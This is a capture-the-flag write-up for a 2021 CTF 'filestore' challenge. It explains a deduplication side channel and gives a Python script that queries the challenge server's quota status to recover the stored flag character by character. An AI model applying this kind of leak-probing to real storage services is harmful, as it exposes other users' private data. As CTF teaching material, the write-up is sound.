 # Observations. 

## From the source code we can see
* the  blocks of data are  kept in the form {startIndex,endIndex}. !Important can overlap for 1+ records

* Size increases only if we miss those existing blocks of data. Brute force all combinations to get the result

# Atack Overview

### Check the characters used in the initial storage.

```

import time as os
import socket 
import string as str

url = "filestore.2021.ctfcompetition.com"
port = 1337
toCheck = str.ascii_letters + str.digits + str.punctuation
SKIP = True
def skipInput(socket,count):
    loop = 0
    while loop != count:
        data = socket.recv(1024)
        if len(data) == 0:
            break
        loop += 1
    return data.decode('utf-8')

def getStatus(socket):
    return skipInput(socket, 2)

def netcat(hostname, port, content):
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((hostname, port))
    goalStatus = "Quota: 0.026kB/64.000kB"
    #close welcome message
    '== proof-of-work: disabled ==\n'
    """Welcome to our file storage solution.\n\n
    Menu:\n
    - load\n
    - store\n
    - status\n
    - exit\n"""
    skipInput(s, 2)

    s.sendall("store\n".encode())

    #"Send me a line of data..."
    #close input prompt
    skipInput(s, 1)
    s.sendall((content+"\n").encode())

    #"Stored! Here's your file id:"
    #"********"
    #Close a success message. 
    skipInput(s, 1)

    #get status
    s.sendall("status\n".encode())
    currentStatus = getStatus(s)

    if currentStatus.find(goalStatus) == -1:
        return -1
    s.close()
    os.sleep(1)
    
usedChars = []
if not SKIP:
    for i in toCheck:
        #skip records
        if -1 == netcat(url,port,i):
            continue
        usedChars.append(i)
print(usedChars)
```

### Following characters are discovered. They are used to create the original data.

```

permutationOfCharacters = ['c', 'd', 'f', 'i', 'n', 'p', 't', 'u', 'C', 'F', 'M', 'R', 'T', '0', '1', '3', '4', '_', '{', '}']

```

### Time to brute force all possible Combinations with Replacement

```

#brute force all possibilities
#Get a core
totalString = permutationOfCharacters[0]

while True:
    Updated = False
    print(totalString)
    #Check left
    for i in permutationOfCharacters:
        if -1 == netcat(url, port, i + totalString):
            continue
        Updated = True
        totalString = i + totalString
        break
    
    
    #Check right
    for i in permutationOfCharacters:
        if -1 == netcat(url, port, totalString + i):
            continue
        Updated = True
        totalString = totalString + i
        break
        
    if Updated == False:
        break
print(totalString)
```
